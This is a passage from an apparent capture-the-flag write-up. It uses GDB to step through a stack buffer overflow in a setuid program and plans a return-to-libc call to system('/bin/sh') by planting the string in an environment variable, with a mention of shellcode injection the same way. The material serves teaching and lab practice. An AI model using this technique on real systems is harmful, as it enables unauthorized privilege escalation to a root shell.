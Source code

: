 ``` gdb

Breakpoint 2, agonistic_heaven () at durka.c:17
```
Emm, indeed we step in to `agnostic_heaven()` not bad. Let's examine what the stack look like after the function finished.
```
(gdb) disas
Dump of assembler code for function agonistic_heaven:
=> 0x08048590 <+0>:     push   %ebp
   0x08048591 <+1>:     mov    %esp,%ebp
   0x08048593 <+3>:     call   0x80483e0 <geteuid@plt>
   0x08048598 <+8>:     push   %eax
   0x08048599 <+9>:     push   %eax
   0x0804859a <+10>:    push   %eax
   0x0804859b <+11>:    call   0x80483b0 <setresuid@plt>
   0x080485a0 <+16>:    add    $0xc,%esp
   0x080485a3 <+19>:    leave
   0x080485a4 <+20>:    ret
End of assembler dump.
(gdb) until *0x080485a3
0x080485a3 in agonistic_heaven () at durka.c:21
(gdb) x/32x $ebp
0xffffd960:     0x41414141      0x080485b8      0x08048600      0x00000406
0xffffd970:     0x00000406      0x00000000      0x00000000      0xf7e2a276
0xffffd980:     0x00000002      0xffffda14      0xffffda20      0x00000000
0xffffd990:     0x00000000      0x00000000      0xf7fc5000      0xf7ffdc0c
0xffffd9a0:     0xf7ffd000      0x00000000      0x00000002      0xf7fc5000
0xffffd9b0:     0x00000000      0x05846f03      0x3f730313      0x00000000
0xffffd9c0:     0x00000000      0x00000000      0x00000002      0x0804847b
0xffffd9d0:     0x00000000      0xf7fee720      0xf7e2a189      0xf7ffd000

```
`0x080485b8` is the address where we will call `system@plt`, but with what parameter? Recall that the parameter is always pushed to the top of stack, which right now is the next four bytes after the call address `0x08048600`, it should be some random stuff, but let's just check.
```
(gdb) x/s 0x08048600
0x8048600 <__libc_csu_init+48>: "1\377\215\266"
```
Indeed.
What we really want to pass to the `system()` is no doubt `/bin/sh`, but where can we find it? Once we have the address of `/bin/sh` we can simply append it to our current exploit input to make it the parameter of `system()`. So let's find a place for `/bin/sh`. 
There are different ways to do so (I believe). I will focus on how to inject through environment variable. This is a useful technique not only here, but you can also inject your shellcode into the system variable, given the program disabled `ASRL` and didn't flush the environ table. 
Let's first examine the existed environment variables. 
```
user@host:/your-dir$ env
_system_type=Linux
SSH_CONNECTION=170.140.151.178 60648 172.18.1.11 22
LANG=en_US.UTF-8
rvm_bin_path=/usr/local/rvm/bin
OLDPWD=/
rvm_version=1.29.3 (latest)
RUBY_VERSION=ruby-2.4.1
GEM_HOME=/usr/local/rvm/gems/ruby-2.4.1
USER=user
PWD=/c0re
_system_version=9
HOME=/home/user
_system_name=Debian
SSH_CLIENT=170.140.151.178 60648 22
_system_arch=x86_64
```